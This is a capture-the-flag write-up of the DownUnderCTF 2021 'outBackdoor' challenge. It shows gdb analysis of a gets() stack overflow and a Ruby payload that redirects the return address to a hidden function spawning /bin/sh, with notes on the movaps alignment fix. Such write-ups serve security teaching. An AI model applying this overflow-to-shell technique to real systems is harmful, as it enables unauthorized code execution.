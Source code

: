 ## Intro
**outBackdoor** was a pwn challenge at DownUnderCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that besides NX no other stack mitigations are present, especially no PIE. Following the `ltrace` I learned the relatively simple flow of the program and found
a potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and found - next
to the `main` function - another interesting function called `outBackdoor`.

```
(gdb) info functions
...
0x0000000000401195  main
0x00000000004011d7  outBackdoor
...
```

```
(gdb) disas outBackdoor
...
0x00000000004011e7 <+16>:	lea    rdi,[rip+0xedf]        # 0x4020cd  "/bin/sh"
0x00000000004011ee <+23>:	mov    eax,0x0
0x00000000004011f3 <+28>:	call   0x401050 <system@plt>
...
```

```
(gdb) disas main
...
0x00000000004011bf <+42>:	lea    rax,[rbp-0x10]
0x00000000004011c3 <+46>:	mov    rdi,rax
0x00000000004011c6 <+49>:	mov    eax,0x0
0x00000000004011cb <+54>:	call   0x401060 <gets@plt>
...
```

The disassembly of the functions reveals we can get a shell from `outBackdoor` - if we are able to call it, as it isn't called from anywhere in `main`.
So the goal is to overflow the buffer in the `main` function and overwrite the return address with the address of the `outBackdoor` function. Let's set
a breakpoint right after the `gets` and run the program with `AAAAAAAA` as input.

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffdee0:
 rip = 0x4011d0 in main; saved rip = 0x7ffff7e0cb75
 Arglist at 0x7fffffffded0, args: 
 Locals at 0x7fffffffded0, Previous frame's sp is 0x7fffffffdee0
 Saved registers:
  rbp at 0x7fffffffded0, rip at 0x7fffffffded8
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x00000000	0x00000000
0x7fffffffded0:	0x00000000	0x00000000	0xf7e0cb75	0x00007fff
0x7fffffffdee0:	0xffffdfc8	0x00007fff
```

We see that the buffer at `rbp-0x10` which is at `0x7fffffffdec0` itself takes 16 bytes of which we filled 8 bytes with the `AAAAAAAA`'s we typed in.
Then follows the `rbp` at `0x7fffffffded0`. On a 64-bit system this address takes another 8 bytes and directly after follows the `main` function's return
address we want to overwrite with the address of `outBackdoor` which is `0x00000000004011d7` - lucky for us the binary isn't PIE enabled.  

So we can just fill the buffer at `rbp-0x10` with 16 bytes, overwrite the `rbp` next with another 8 bytes and then overwrite
the return address of `main` with the 64-bit address of `outBackdoor` which is `0x00000000004011d7`.

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r < <(ruby -e 'print "A"*16 + "B"*8 + "\xd7\x11\x40\x00\x00\x00\x00\x00"')
...
Breakpoint 1, 0x00000000004011d0 in main ()
(gdb) x/10x $rbp-0x10
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x42424242	0x42424242	0x004011d7	0x00000000
0x7fffffffdee0:	0xffffdf00	0x00007fff
(gdb) c
Continuing.


W...w...Wait? Who put this backdoor out back here?
```
___
##### Note
When running the exploit remotely the program segfaults because of the so called [movaps issue](https://ropemporium.com/guide.html).
`movaps` is an assembly instruction that is used in some syscalls like `do_system()` and it expects the stack to be 16-byte aligned. Because we just brutally overwrote the return address of `main` instead of using a clean `call outBackdoor` our stack at the point of calling into `system()` is not aligned correctly.
To deal with that I used the address of `outBackdoor + 1` in the exploit instead - skipping the first `push rbp` instruction and therefore keeping the stack alignment intact.
___

See [exploit](./exploit.py) for an automation of the exploit written in python.

> DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
